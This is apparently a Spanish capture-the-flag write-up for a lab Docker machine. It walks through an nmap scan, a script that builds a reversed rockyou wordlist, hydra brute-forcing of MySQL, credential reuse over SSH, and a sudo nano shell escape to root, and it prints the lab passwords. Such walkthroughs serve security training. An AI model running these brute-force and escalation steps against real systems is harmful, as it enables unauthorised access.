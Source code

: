 ```yaml
---
Maquina: aduademayo
SO: Linux
Explotación: Análisis de imágenes y web
Escala_privs: Permisos sudo
Dificultad: Fácil
tags:
  - maquina
  - web_discovery
  - analisis_imagen
  - linux
  - escala_privs
  - ssh
  - web
---
```

## Reconocimiento

1. **Explorar los puerto abiertos del docker**: 

```bash 
nmap -p- --open --min-rate 5000 -sSV -Pn 172.17.0.2
```

![[Pasted image 20241119084416.png]]

Vamos a comprobar el estado del portal web a ver que información nos puede proporcionar.

![[Pasted image 20241119084507.png]]

Parece ser un fan de V de vendetta jeje, nos da a entender que es importante el nombre del personaje... Osea V.... Vamos a probar a hacer fuerza bruta al mysql con este nombre.

Tras probar varias cosas lo que había que hacer es invertir el rockyou.txt y eliminar los caracteres especiales, yo he utilizado el siguiente código ->

```python
import re

# Leer el archivo completo y procesarlo
with open("rockyou.txt", "r", encoding="utf-8", errors="ignore") as infile:
    # Leer todas las líneas y limpiar caracteres especiales
    passwords = [re.sub(r"[^a-zA-Z0-9]", "", line.strip()) for line in infile]
    
# Invertir el orden de las contraseñas
passwords = list(filter(None, passwords))[::-1]  # Eliminar líneas vacías y luego invertir

# Guardar las contraseñas invertidas en un nuevo archivo
with open("rockyou_invertido.txt", "w", encoding="utf-8") as outfile:
    outfile.write("\n".join(passwords))

print("Archivo procesado y guardado como 'rockyou_invertido.txt'")
```

Y tras invertir y probar la conexión por fuerza bruta obtenemos lo siguiente ->

```bash
hydra -l V -P rockyou_invertido.txt mysql://172.17.0.2 -f
```

![[Pasted image 20241120090144.png]]

Y conseguimos el user V / ie168. Ahora toca intentar iniciar sesión en el mysql yyyyyyy.. Estamos dentro

![[Pasted image 20241120090250.png]]

Tras indagar un poco en las bases de datos, nos podemos encontrar con el usuario Vendetta y la pass OldBailey

![[Pasted image 20241120090556.png]]

Y me da en la nariz que con este usuario podemos intentar conectarnos al ssh del host.

![[Pasted image 20241120090742.png]]

Parece que si que nos podemos conectar ;), ahora toca ver los permisos que tenemos.

![[Pasted image 20241120091004.png]]

Vemos que estamos ante el mítico nano con demasiados permisos...

```bash
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

![[Pasted image 20241120091106.png]]

Y ya lo tenemos ;)